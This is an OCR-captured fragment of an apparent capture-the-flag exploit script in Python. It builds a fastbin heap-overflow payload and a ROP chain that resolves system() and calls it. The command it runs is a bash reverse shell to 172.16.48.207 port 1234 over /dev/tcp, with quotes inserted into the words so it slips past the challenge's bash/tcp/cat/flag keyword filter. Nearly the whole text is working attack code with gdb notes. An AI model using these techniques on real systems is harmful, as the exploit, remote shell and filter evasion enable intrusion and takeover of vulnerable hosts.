 ```bash

    # for k in [b"bash", b"flag", b"cat", b"tcp"]:
    #     assert k not in shellcode, "invalid sequence {} in shellcode".format(k)


    # assert len(shellcode) <= 0x1100 - 0x8
    overflow_fastbin_fd_payload =  b'"ccccccccccccc\u"   '
    overflow_fastbin_fd_payload += b'3' * (0x1100 - 0x8)
    overflow_fastbin_fd_payload += p64(0x41) # size of fastbin
    '''
    gdb-peda$ x/20gx 0x676020-8+2
    0x67601a:       0x51e8000000000000      0x51f0000000000045
    '''
    overflow_fastbin_fd_payload += p32(0x67601a) # fake fd, use p32 instead of p64 to save bytes
    overflow_fastbin_fd_payload += b'"'
    overflow_fastbin_fd_payload += b',' # not end
    # print("overflow_fastbin_fd_payload len {:#x}, raw_len {:#x}".format(len(overflow_fastbin_fd_payload), raw_len(overflow_fastbin_fd_payload)))

    dummy_alloc_payload =  b'"'
    dummy_alloc_payload += b'4' * 0x30
    dummy_alloc_payload += b'"'
    dummy_alloc_payload += b','
    # print("dummy_alloc_payload len {:#x}, raw_len {:#x}".format(len(dummy_alloc_payload), raw_len(dummy_alloc_payload)))


    '''
    gdb-peda$ x/5i 0x7fea5aabd050
   0x7fea5aabd050 <munmap>:     mov    eax,0xb
   0x7fea5aabd055 <munmap+5>:   syscall
   0x7fea5aabd057 <munmap+7>:   cmp    rax,0xfffffffffffff001
   0x7fea5aabd05d <munmap+13>:  jae    0x7fea5aabd060 <munmap+16>
   0x7fea5aabd05f <munmap+15>:  ret
    '''
    '''
    0x00000000004464e2, # xchg edx, ecx ; ret -> save heap pointer
    0x0000000000451151, # pop r8 ; mov dword ptr [rdx], eax ; xor eax, eax ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    0x0000000000401063, # pop rdx ; pop rbx ; pop rbp ; ret
    0x0000000000406862 : pop rsi ; ret
    0x0000000000404cb7 : pop rdi ; ret
    0x00000000004165af : add rax, rsi ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    '''
    ropchain = flat([
        0x0000000000450ab0, # mov rax, qword ptr [rdi + 0x28] ; ret
        0x0000000000406862, # pop rsi ; ret
        0xa0b0, # system - getenv
        0x00000000004165af, # add rax, rsi ; ret -> rax->system
        0x0000000000404cb7, # pop rdi ; ret
        0x6760c8, # cmd address
        0x0000000000408823, # add rsp, 0x328 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret -> sastisfy system
        b'x' * (0x328 + 6 * 8),
        0x000000000040853d, # call rax
    ])

    CMD = b"""bas'h' -i >& /dev/'t'cp/172.16.48.207/1234 0>&1;"""
    for k in [b'bash', b'flag', b'cat', b'tcp', b'"']:
        assert k not in CMD, "invalid sequence {} in CMD".format(k)

    # CMD = b"touch /tmp/test;"
```